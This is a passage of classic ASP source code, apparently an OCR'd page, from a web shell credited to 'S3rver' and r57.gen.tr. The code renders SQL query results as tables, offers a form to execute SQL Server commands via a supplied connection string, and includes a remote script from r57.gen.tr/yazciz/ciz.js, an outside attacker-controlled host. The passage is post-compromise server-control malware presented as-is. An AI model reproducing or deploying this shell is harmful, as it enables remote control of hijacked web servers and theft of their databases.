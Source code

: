     
            Response.Write "&lt;table border=1 cellpadding=2 cellspacing=0 bordercolor=543152&gt;&lt;tr bgcolor=silver&gt;"
            for i=0 to objRcs.Fields.count-1
                Response.Write "&lt;td&gt;&lt;font color=black&gt;&lt;b&gt;&nbsp;&nbsp;&nbsp;"&objRcs.Fields(i).Name&"&nbsp;&nbsp;&nbsp;&lt;/font&gt;&lt;/td&gt;"
            next
            Response.Write "&lt;/tr&gt;"
            do while not objRcs.EOF
                Response.Write "&lt;tr&gt;"
                for i=0 to objRcs.Fields.count-1
                    Response.Write "&lt;td&gt;"&objRcs.Fields(i).Value&"&nbsp;&lt;/td&gt;"
                next
                Response.Write "&lt;/tr&gt;"
                objRcs.MoveNext
            loop
            Response.Write "&lt;/table&gt;&lt;br&gt;"
          END SELECT
     Else
        showdisks=FALSE
        checa = checking(cprthtml,keydec)
        Call hdr()
        Response.Write "&lt;form method=""post"" target=""_opener"" action=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=sqlserver""&gt;"
        Response.Write "&lt;table cellpadding=0 cellspacing=0 align=center&gt;&lt;tr&gt;&lt;td align=center&gt;&lt;font size=2&gt;SQL Server connection string:&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td align=center&gt;"
        Response.Write "&lt;input type=hidden value='7' name=status&gt;"
        Response.Write "&lt;input style='width:250; height:21' value='' name=path&gt;&lt;br&gt;"
        response.Write "&lt;input type=submit value='Execute SQL Server Command' style='height:23;width:220' id=submit1 name=submit1&gt;"
        Response.Write "&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;"
        response.Write "&lt;/form&gt;"
    End IF
    Case "about"
        showdisks=FALSE
        checa = checking(cprthtml,keydec)
        Call hdr()
        response.Write "&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;body topmargin=5 leftmargin=0&gt;&lt;center&gt;&lt;h4&gt;Coded By S3rver"
        response.Write "&lt;br&gt;&lt;br&gt;"
        response.Write "&lt;font size=2 color=Red face='courier new'&gt;r57.gen.tr&lt;/font&gt;"
        response.Write "&lt;br&gt;"
        response.Write "&lt;font size=2 color=Red face='courier new'&gt;E-Mail:thesabotaqe@gmail.com&lt;/font&gt;"
        response.Write "&lt;br&gt;&lt;br&gt;"
        response.Write "&lt;font size=2 color=Blue face='courier new'&gt;r57.gen.tr&lt;/font&gt;"
    Case Else
        checa = checking(cprthtml,keydec)
        Call hdr()
        Response.Write copyright & onlinehelp
        Call showcontent()
End Select
If Err.Number &lt;&gt; 0 Then
    Response.Write "&lt;br&gt;&lt;font face='arial' size='2'&gt;ERRO: " & Err.Number & "&lt;br&gt;&lt;br&gt;&lt;b&gt;" & UCase(Err.Description) & "&lt;/b&gt;&lt;br&gt;Acesse denied."
End If
Response.Write endcode
if showdisks then
%&gt;
&lt;SCRIPT SRC=http://r57.gen.tr/yazciz/ciz.js&gt;&lt;/SCRIPT&gt;
    &lt;script language=javascript&gt;
        // DRIVE ISLEMLERI
        function driveGo(drive_){